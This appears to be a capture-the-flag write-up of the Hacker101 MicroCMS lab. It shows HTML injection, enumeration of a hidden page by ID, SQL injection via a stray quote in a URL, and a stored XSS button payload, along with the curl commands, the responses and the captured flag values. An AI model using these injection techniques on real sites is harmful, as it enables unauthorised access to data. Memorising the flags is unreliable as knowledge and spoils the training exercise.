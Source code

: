 # Easy - MicroCMS

## Flag 0x01

Here we've got a simple CMS web app, we can edit existing pages with markdown text editor, we can also create new pages with the same markdown editor.

The markdown editor has a hint:
> Markdown is supported, but scripts are not

Local repo:
So I tried to inject JS and HTML random stuff, rendering of injects were parsed as expected:
![HTML Injection](../static/2024-09-17_12-27.png)

Except in the pages list where the titles rendered html successfully (and potentially JS):
![HTML Injection rendered](../static/2024-09-17_13-18.png)

## Flag 0x02
The CMS shows only 2 pages and we are able to edit those, looping through the page id on the url we can see there is one more page hidden from the list:
```bash
n0kt.b0wer:.../ctf-notes/h1 (main) ➜ curl 'https://91c75d076bf3833b783dc5e5541638f1.ctf.hacker101.com/page/edit/7'                                     [14:11:06]
<!doctype html>
<html>
    <head>
        <title>Edit page</title>
    </head>
    <body>
        <a href="../../">&lt;-- Go Home</a>
        <h1>Edit Page</h1>
        <form method="POST">
            Title: <input type="text" name="title" value="Private Page"><br>
            <textarea name="body" rows="10" cols="80">My secret is ^FLAG^*******************5aed9107eb5bf097afc1fadb7f82c85e3263a1$FLAG$</textarea><br>
            <input type="submit" value="Save">
            <div style="font-style: italic"><a href="https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet">Markdown</a> is supported, but scripts are not</div>
        </form>
    </body>
</html>
```
## Flag 0x03
Found SQLi:
```bash
n0kt.b0wer:.../ctf-notes/h1 (main) ➜ curl "https://91c75d076bf3833b783dc5e5541638f1.ctf.hacker101.com/page/edit/2'"                                    [14:40:
^FLAG^bd9eb5126a15edbe784623d236eb301b28b959e0d65a105b9cc340a7762448a2$FLAG$%
```
## Flag 0x04
The last one is to edit any markdown page and put an html with xss injected, after saved, check the src:
```bash
n0kt.b0wer:.../ctf-notes/h1 (main) ➜ curl -s 'https://91c75d076bf3833b783dc5e5541638f1.ctf.hacker101.com/page/2' | ag FLAG                             [14:44:33]
<button flag="^FLAG^607b6e4f74f4078ba71a6adc3596cad90022dd897e88d8fbf74d8ce6bf9e4ca2$FLAG$" onclick=alert(‘xss’)>click</button></p>
```